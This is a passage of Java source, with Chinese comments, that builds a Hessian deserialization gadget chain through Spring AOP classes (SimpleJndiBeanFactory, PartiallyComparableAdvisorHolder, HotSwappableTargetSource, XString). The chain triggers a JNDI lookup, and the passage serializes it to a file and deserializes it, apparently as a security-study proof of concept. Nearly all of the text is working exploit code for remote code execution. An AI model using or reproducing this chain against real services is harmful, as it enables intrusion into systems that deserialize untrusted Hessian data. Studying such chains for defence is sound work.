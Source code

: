 ```bash
        // 创建BeanFactoryAspectInstanceFactory
        // 触发SimpleJndiBeanFactory的getType方法
        AspectInstanceFactory beanFactoryAspectInstanceFactory = createWithoutConstructor(BeanFactoryAspectInstanceFactory.class);
        setFiled(beanFactoryAspectInstanceFactory, "beanFactory", simpleJndiBeanFactory);
        setFiled(beanFactoryAspectInstanceFactory, "name", url);

        // 创建AspectJAroundAdvice
        // 触发BeanFactoryAspectInstanceFactory的getOrder方法
        AbstractAspectJAdvice aspectJAroundAdvice = createWithoutConstructor(AspectJAroundAdvice.class);
        setFiled(aspectJAroundAdvice, "aspectInstanceFactory", beanFactoryAspectInstanceFactory);

        // 创建AspectJPointcutAdvisor
        // 触发AspectJAroundAdvice的getOrder方法
        AspectJPointcutAdvisor aspectJPointcutAdvisor = createWithoutConstructor(AspectJPointcutAdvisor.class);
        setFiled(aspectJPointcutAdvisor, "advice", aspectJAroundAdvice);

        // 创建PartiallyComparableAdvisorHolder
        // 触发AspectJPointcutAdvisor的getOrder方法
        String PartiallyComparableAdvisorHolder = "org.springframework.aop.aspectj.autoproxy.AspectJAwareAdvisorAutoProxyCreator$PartiallyComparableAdvisorHolder";
        Class<?> aClass = Class.forName(PartiallyComparableAdvisorHolder);
        Object partially = createWithoutConstructor(aClass);
        setFiled(partially, "advisor", aspectJPointcutAdvisor);

        // 可以不使用HotSwappableTargetSource
        // 创建HotSwappableTargetSource
        // 触发PartiallyComparableAdvisorHolder的toString方法
        HotSwappableTargetSource targetSource1 = new HotSwappableTargetSource(partially);
        HotSwappableTargetSource targetSource2 = new HotSwappableTargetSource(new XString("aaa"));

        // 创建HashMap
        HashMap hashMap = new HashMap();
        hashMap.put(targetSource1, "111");
        hashMap.put(targetSource2, "222");

        // 序列化
        FileOutputStream fileOutputStream = new FileOutputStream("JavaSec/out/PartiallyComparableAdvisorHolderHessian.bin");
        Hessian2Output hessian2Output = new Hessian2Output(fileOutputStream);
        SerializerFactory serializerFactory = new SerializerFactory();
        serializerFactory.setAllowNonSerializable(true);
        hessian2Output.setSerializerFactory(serializerFactory);
        hessian2Output.writeObject(hashMap);
        hessian2Output.close();

        // 反序列化
        FileInputStream fileInputStream = new FileInputStream("JavaSec/out/PartiallyComparableAdvisorHolderHessian.bin");
        Hessian2Input hessian2Input = new Hessian2Input(fileInputStream);
        HashMap o = (HashMap) hessian2Input.readObject();

    }

    public static void setFiled(Object o, String fieldname, Object value) throws Exception {
        Field field = getField(o.getClass(), fieldname);
        field.setAccessible(true);
        field.set(o, value);
    }

    public static <T> T createWithoutConstructor ( Class<T> classToInstantiate )
```